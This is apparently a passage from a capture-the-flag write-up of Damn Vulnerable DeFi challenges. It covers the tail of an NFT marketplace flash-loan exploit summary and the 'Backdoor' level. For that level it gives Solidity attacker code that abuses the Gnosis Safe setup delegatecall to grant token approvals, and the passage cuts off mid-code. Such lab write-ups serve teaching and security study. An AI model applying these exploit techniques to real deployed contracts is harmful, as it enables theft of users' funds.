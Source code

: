 In other words, the sender of the contract would receive both the NFT and the sent funds.
Allowing the attacker to gain the three NFTs of the example, reusing the sent funds and
recovering them at the end.

##### Summary of the solution

* Prepare the order with the `tokenIds` `[0, 1, 2, 3, 4, 5]` for `15 ETH`.
* Leverage the flash loan feature of the deployed Uniswap v2 pool to access these funds.
* Send the obtained NFTs to the recovery contract and pocket the bounty.

### References

* https://eips.ethereum.org/EIPS/eip-721
* https://docs.openzeppelin.com/contracts/2.x/api/token/erc721
* https://docs.uniswap.org/contracts/v2/guides/smart-contract-integration/using-flash-swaps
* https://github.com/Uniswap/v2-periphery/blob/master/contracts/examples/ExampleFlashSwap.sol
* https://solidity-by-example.org/defi/uniswap-v2-flash-swap/

## 11 Backdoor

To beat this level, we need to comply with

* Each user must have registered a wallet.
* Each user is no longer registered as a beneficiary.
* The balance of the `player` address is 40e18.

```solidity
// User must have registered a wallet
address wallet = walletRegistry.wallets(users[i]);
assertNotEq(wallet, address(0));

// User is no longer registered as a beneficiary
assertFalse(walletRegistry.beneficiaries(users[i]));

assertEq(token.balanceOf(playerAddress), AMOUNT_TOKENS_DISTRIBUTED);
```

### Solution

OpenZeppelin [reported in 12.MAR.2020](https://blog.openzeppelin.com/backdooring-gnosis-safe-multisig-wallets) about the risks of enabling a DELEGATECALL to an arbitrary contract in the Gnosis Safe.

Once set up, the created wallet is designed to receive a token transfer. However, a vulnerability arises as anyone, including potential attackers, can set up this wallet on behalf of the user, enabling them to earn these tokens during the callback of the creation process. The attack strategy involves crafting a contract with a function that contains the `token.approve(address,uint256)` function.

```solidity
// The attacker contract
contract Attacker {
  function setApproval(DamnValuableToken token, address playerAddress) public {
    token.approve(playerAddress, 10 ether);
  }
}

// The initializer
bytes memory initializer = abi.encodeWithSelector(
  GnosisSafe.setup.selector,
  owners,
  uint256(1),               // threshold, has to be 1.
  address(attacker),        // address for the delegatecall.
  abi.encodeWithSignature(
    "setApproval(address,address)",
    level.token(),
    address(this)
  ),                        // data for the delegatecall.
  address(0),               // fallbackHandler, has to be 0.
```